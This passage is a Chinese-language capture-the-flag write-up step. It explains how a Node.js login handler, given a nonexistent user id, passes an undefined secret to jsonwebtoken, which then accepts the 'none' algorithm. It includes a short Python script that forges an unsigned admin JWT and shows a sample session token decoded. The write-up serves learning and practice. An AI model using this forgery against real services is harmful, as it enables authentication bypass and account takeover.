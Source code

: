 备份源码到手
wp里说拿到的源码跟环境里面的一毛一样，那就可以直接部署本地环境了



#### step3:

关键代码在login.js里面


 ```js
    var secret = global.secretlist[id];

    try {
        var user = jwt.verify(req.cookies.token,secret,{algorithm: "HS256"});
    } catch (error) {
        return res.status(500).json({"error":"jwt error"}).end();
    }
```

按照官方wp里给的说法

node的jsonwebtoken 有个bug，当 *jwt secret* 为空时 jsonwebtoken会采用algorithm *none* 进行解密

此时服务端就通过

 ```js
var secret = global.secretlist[id];
jwt.verify(req.cookies.token,secret);
```
解密，此时可以通过传入不存在的id，让secret为undefined，导致algorithm为none，然后就可以通过伪造jwt来成为admin
伪造脚本：
```python
# pip3 install pyjwt
import jwt
token = jwt.encode({"id":-1,"username":"admin","password":"123456"},algorithm="none",key="").decode(encoding='utf-8')
print(token)
```

**正常的session：**
```json
encode:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE2LCJ1c2VybmFtZSI6ImFkbWluMTIzIiwicGFzc3dvcmQiOiIxMjMiLCJpYXQiOjE1NzM3MTUwNjJ9.Gxc67_Lt3wHPzuYi4m0ZobAcIplQzMsjt7H3yHKEX4g

decode:
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "id": 116,
  "username": "admin123",
  "password": "123",
  "iat": 1573715062
}

```
